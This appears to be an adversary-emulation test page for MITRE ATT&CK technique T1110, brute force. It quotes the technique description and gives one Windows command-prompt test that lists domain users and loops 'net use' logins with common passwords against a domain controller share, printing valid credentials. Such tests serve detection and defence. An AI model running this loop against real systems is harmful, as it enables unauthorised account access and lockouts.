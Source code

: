 # T1110 - Brute Force
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1110)
<blockquote>Adversaries may use brute force techniques to attempt access to accounts when passwords are unknown or when password hashes are obtained.

[Credential Dumping](https://attack.mitre.org/techniques/T1003) to obtain password hashes may only get an adversary so far when [Pass the Hash](https://attack.mitre.org/techniques/T1075) is not an option. Techniques to systematically guess the passwords used to compute hashes are available, or the adversary may use a pre-computed rainbow table. Cracking hashes is usually done on adversary-controlled systems outside of the target network. (Citation: Wikipedia Password cracking)

Adversaries may attempt to brute force logins without knowledge of passwords or hashes during an operation either with zero knowledge or by attempting a list of known or possible passwords. This is a riskier option because it could cause numerous authentication failures and account lockouts, depending on the organization's login failure policies. (Citation: Cylance Cleaver)

A related technique called password spraying uses one password, or a small list of passwords, that matches the complexity policy of the domain and may be a commonly used password. Logins are attempted with that password and many different accounts on a network to avoid account lockouts that would normally occur when brute forcing a single account with many passwords. (Citation: BlackHillsInfosec Password Spraying)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Brute Force Credentials](#atomic-test-1---brute-force-credentials)


<br/>

## Atomic Test #1 - Brute Force Credentials
Creates username and password files then attempts to brute force on remote host

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_file_users | Path to a file containing a list of users that we will attempt to brute force | Path | DomainUsers.txt|
| input_file_passwords | Path to a file containing a list of passwords we will attempt to brute force with | Path | passwords.txt|
| remote_host | Hostname of the target system we will brute force upon | String | \\COMPANYDC1\IPC$|
| domain | Domain name of the target system we will brute force upon | String | YOUR_COMPANY|

#### Run it with `command_prompt`!
```
net user /domain > #{input_file_users}
echo "Password1" >> #{input_file_passwords}
echo "1q2w3e4r" >> #{input_file_passwords}
echo "Password!" >> #{input_file_passwords}
@FOR /F %n in (#{input_file_users}) DO @FOR /F %p in (#{input_file_passwords}) DO @net use #{remote_host} /user:#{domain}\%n %p 1>NUL 2>&1 && @echo [*] %n:%p && @net use /delete #{remote_host} > NUL
```
<br/>
